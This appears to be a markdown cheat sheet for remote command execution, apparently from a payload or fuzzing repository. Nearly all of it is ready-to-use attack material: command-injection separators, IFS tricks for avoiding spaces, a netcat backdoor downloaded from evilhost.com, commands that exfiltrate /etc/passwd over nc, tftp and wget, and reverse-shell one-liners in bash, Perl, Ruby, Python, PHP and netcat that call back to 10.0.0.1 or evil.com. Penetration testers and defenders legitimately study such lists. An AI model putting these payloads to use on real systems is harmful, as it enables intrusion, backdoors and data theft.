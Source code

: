 Remote Command Exec Cheatsheet

File notes

**source-disc-cmd-exec-traversal.fuzz.txt**

usage
```GET /path/*payload*relative/path/to/target/file/```

**Executing Commands**

Seperating Commands 
``` blah;blah2 ```

PIPES
``` blah ^ blah 2```

AND 
```blah && blah2```

OR
```FAIL || X```

OR 
``` blah%0Dblah2%0Dblah3 ```

Backtick
``` `blah` ```

Background 
``` `blah & blah2` ```

***Shell commands without spaces***
Using Internal Field Separator (IFS)

Test for cmd injection withouot spaces:<br>
```sleep${IFS:0:1}20```

Example netcat backdoor without spaces:
```{wget,http://evilhost.com/nc}```
```{chmod,+x,./nc}```
```{./nc,-l,-p,6666,-e,/bin/bash```

See: https://jon.oberheide.org/blog/2008/09/04/bash-brace-expansion-cleverness/<br>


**Exfiltrating Files / Data**

FTP 
Make a new text file, and echo and then redirect to FTP

NC 
``` 'nc -e /bin/sh' ```

NC 
``` 'echo /etc/passwd  | nc host port' ```

TFTP 
``` 'echo put /etc/passwd | tftp host' ```

WGET: 
``` 'wget --post-file /etc/passwd' ```

**One-Liner Reverse Shells**

On the listener 
``` $ nc -l -p 8080 -vvv' ```

On the remote host...
Bash:
``` $ bash -i >& /dev/tcp/10.0.0.1/8080 0>&1 ```

``` $ exec 5<>/dev/tcp/evil.com/8080 ```
'$ cat <&5 | while read line; do $line 2>&5 >&5; done'

Perl
```$ perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};' ```

Ruby
``` $ ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)' ```

Python
``` $ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' ```

PHP
``` $ php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");' ```
(Assumes TCP uses file descriptor 3. It it doesn't work, try 4,5, or 6)

Netcat
``` $ nc -e /bin/sh 10.0.0.1 1234 ```

``` $ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f ```


XTERM:<br>
Server: <br>
```$ xterm -display 10.0.0.1:1```
Listener:
```$ Xnest :1```
```$ xhost +targetip```




More docs: /docs/attack-docs/remote-cmd-exfiltration/
